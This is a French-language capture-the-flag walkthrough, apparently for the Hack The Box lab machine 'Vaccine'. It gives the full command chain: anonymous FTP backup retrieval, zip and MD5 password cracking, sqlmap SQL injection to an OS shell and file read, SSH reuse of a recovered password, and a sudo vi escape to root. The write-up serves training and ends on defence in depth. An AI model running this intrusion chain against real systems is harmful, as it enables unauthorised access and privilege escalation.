






[⬅ Retour à Starting Point](../README.md) · [🏠 Accueil du repo](../../../README.md)

# Machine 10 — VACCINE

**FTP → SQLi PostgreSQL → sudo vi détourné — Ports 21, 22, 80**

## Concept

Backup FTP protégé par mot de passe zip, hash MD5 admin trouvé dans le
code, injection SQL PostgreSQL authentifiée exploitée via sqlmap, puis
détournement d'un droit sudo restreint sur vi (GTFOBins) pour obtenir un
shell root.

## Méthodologie — commandes complètes

> nmap -sC -sV 10.129.x.x
>
> \# → 21/tcp FTP (anonyme), 22/tcp SSH, 80/tcp Apache (MegaCorp Login)
>
> ftp 10.129.x.x
>
> \# Name: anonymous / Password: (Entrée)
>
> get backup.zip
>
> exit
>
> \# Crack du mot de passe du zip
>
> zip2john backup.zip \> backup.hash
>
> john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
>
> john --show backup.hash
>
> \# → mot de passe : 741852963
>
> unzip backup.zip \# mot de passe : 741852963
>
> cat index.php
>
> \# → md5(\$\_POST\['password'\]) ===
> "2cb42f8734ea607eefed3b70af13bbd3"
>
> \# Hash cracké (outil en ligne / john --format=raw-md5) → qwerty789
>
> \# Login web : admin / qwerty789
>
> \# Récupérer le cookie PHPSESSID (DevTools / Burp)
>
> sqlmap -u "http://10.129.x.x/dashboard.php?search=test" \\
>
> --cookie="PHPSESSID=\<cookie\>" --os-shell
>
> \# DBMS détecté : PostgreSQL → shell obtenu via COPY ... FROM PROGRAM
>
> \# Dans le os-shell : whoami → postgres
>
> \# Récupération du mot de passe DB en clair depuis le code source
>
> sqlmap -u "http://10.129.x.x/dashboard.php?search=test" \\
>
> --cookie="PHPSESSID=\<cookie\>"
> --file-read="/var/www/html/dashboard.php"
>
> \# → pg_connect(... user=postgres password=P@s5w0rd!)
>
> ssh postgres@10.129.x.x \# password: P@s5w0rd!
>
> cat user.txt
>
> sudo -l
>
> \# → (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf (commande
> unique restreinte)
>
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
>
> \# À l'ouverture, vi est déjà en mode normal (pas besoin d'Échap) :
>
> :set shell=/bin/sh
>
> :shell
>
> \# → shell root obtenu
>
> whoami \# root
>
> cat /root/root.txt

Captures d'écran

*Page "MegaCorp Car Catalogue" (dashboard.php) avec le champ SEARCH
exploité par sqlmap.*

*Récupération du cookie PHPSESSID dans les DevTools du navigateur.*

*Crackage en ligne du hash MD5 trouvé dans le code source (mot de passe
admin : qwerty789).*

*Ouverture de sudo /bin/vi sur le fichier pg_hba.conf restreint.*

*Tentative de sortie de vi via Échap — confusion initiale entre mode
insertion et mode normal.*

*Les commandes vi tapées par erreur directement dans le texte du fichier
de configuration.*

## Points clés

- Un backup ZIP en accès FTP anonyme est une fuite classique : toujours
  le récupérer et le cracker (fcrackzip ou zip2john + john).

- sqlmap --os-shell exécute chaque commande en "one-shot" via des
  requêtes HTTP : ce n'est pas un terminal interactif, donc sudo -l ou
  vi n'y fonctionnent pas correctement.

- sqlmap --file-read est la bonne option pour récupérer un fichier dont
  le cat direct ne retourne rien via os-shell.

- Une fois des identifiants système valides trouvés, privilégier une
  connexion SSH directe plutôt qu'un reverse shell bricolé : c'est un
  vrai TTY stable, sans souci d'échappement clavier.

- GTFOBins pour vi propose plusieurs méthodes de sortie vers un shell :
  :!/bin/sh, :set shell=/bin/sh puis :shell, ou :read \<fichier\> pour
  charger un contenu directement dans le buffer.

- À l'ouverture de vi, on est déjà en mode normal (commande) : inutile
  d'appuyer sur Échap avant de taper ":", ce qui évite les soucis
  d'émulation de terminal.

## Leçon retenue

*Une chaîne de petites erreurs (backup exposé, hash faible, mot de passe
DB en clair, réutilisation de mot de passe, règle sudo mal choisie)
suffit à donner un accès root complet — d'où l'importance de la défense
en profondeur.*

---

[⬅ Précédent : Three](09-three.md) · [⬆ Index Starting Point](../README.md) · [Suivant : Oopsie ➡](11-oopsie.md)
